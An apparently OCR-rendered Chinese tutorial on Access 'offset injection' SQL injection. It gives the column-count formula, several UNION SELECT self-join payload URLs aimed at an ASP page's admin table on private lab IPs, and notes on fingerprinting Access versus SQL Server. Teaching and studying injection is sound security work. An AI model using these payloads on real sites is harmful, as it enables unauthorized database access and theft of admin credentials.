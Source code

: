 ### 原因

字段名取名复杂，字典暴力破解字段名不成功。

### 流程

判断字段数order by

判断表名，使用unionselect*from表名来获取

开始偏移注入利用注入公式来注入

### Access偏移注入公式实践

偏移注入的基本公式为:

orderby出的字段数减去*号的字段数，然而再用orderby的字段数减去2倍刚才得出来的答案

也就是18-11=7

18-7*2=4

得到答案等于: 4

例如: http://192.168.2.133:5555/Production/PRODUCT_DETAIL.asp?id=1513 union select 1 ,2,3,4 ,a.id,b.id,* from (sys_ admin as a inner join sys_ admin as b on a.id = b.id)

\#使用access内连接

\#要知道id在admin表中存在

\#这里union select 1,2,3,4:顾名思义就是刚才得出来的长度。

\#后面的是sq|,可作公式。

http://192.168.2.133:5555/Production/PRODUCT_DETAIL.asp?id=1513+union+select+ 1,2,3,4,5,6,7,8,9,10,11,12,13, 14, 15, 16,17,18,19,20,21,22+from+ admin

[http://192](http://0.0.0.192/). 168.1.110/Production/PRODUCT_DETAIL.asp?id=1513+union+select+1,2,3,4,5,6,7,8,9,10,11, 12, 13, 14, 15,16,*+from+admin

22-16= 6

22-6*2= 10

http://192.168.1.110/Production/PRODUCT_DETAIL.asp id=1513+union+select+1,2,3,4,5,6,7,8,9,10,a.id,b.id,*+from (admin+as+a+inner+join+admin+as+b+on+a.id=b.id)

# 四、探测及绕过

## 判断数据库

- 存在msysobjects表为access、存在sysobjects表为sqlserver

- asp的后缀access居多，php的mysql居多，根据cms判断
- Access不支持注释符，MySQL和MSSQL支持

## 闭合语句
